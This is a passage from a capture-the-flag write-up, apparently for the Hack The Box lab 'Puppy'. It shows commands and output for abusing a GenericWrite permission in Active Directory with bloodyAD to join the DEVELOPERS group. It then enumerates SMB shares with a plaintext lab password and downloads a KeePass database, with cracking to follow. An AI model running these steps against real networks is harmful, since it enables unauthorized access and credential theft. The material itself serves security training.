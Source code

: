 ![NON](file-20250518034844827.png)

We can see that `levi.james` is a member of the `HR` group, which has the `GenericWrite` permission on the `DEVELOPERS` group. This means that we can add ourselves to the `DEVELOPERS` group. We can do that using `BloodyAD` tool

```bash
bloodyAD --host DC.PUPPY.HTB -u levi.james -p 'KingofAkron2025!' add groupMember "DEVELOPERS" levi.james

[+] levi.james added to DEVELOPERS
```

After adding ourselves to the `DEVELOPERS` group, we tried enumerating the shares again to see if we have any new permissions. Running `nxc` again, we can see that we now have `READ` permissions on the `DEV` share.

```bash
nxc smb 10.129.16.111 -u levi.james -p 'KingofAkron2025!' --shares

SMB         10.129.16.111   445    DC               Share           Permissions     Remark
SMB         10.129.16.111   445    DC               -----           -----------     ------
SMB         10.129.16.111   445    DC               ADMIN$                          Remote Admin
SMB         10.129.16.111   445    DC               C$                              Default share
SMB         10.129.16.111   445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.129.16.111   445    DC               IPC$            READ            Remote IPC
SMB         10.129.16.111   445    DC               NETLOGON        READ            Logon server share
SMB         10.129.16.111   445    DC               SYSVOL          READ            Logon server share
```

We can now enumerate the `DEV` share to see if we can find anything interesting. 

```bash
smbclient.py levi.james:'KingofAkron2025!'@PUPPY.HTB
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# use dev
# ls
drw-rw-rw-          0  Sun Mar 23 07:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 16:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 07:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Sun Mar  9 20:16:16 2025 Projects
-rw-rw-rw-       2677  Wed Mar 12 02:25:46 2025 recovery.kdbx
# get recovery.kdbx
# exit
```

We can see that there is a `recovery.kdbx` file, which is a KeePass database file. We can use `KeePassXC` to open the file, but we need the password to decrypt it. Using `keepass2john` we can extract the hash from the file and then crack it using `hashcat`.
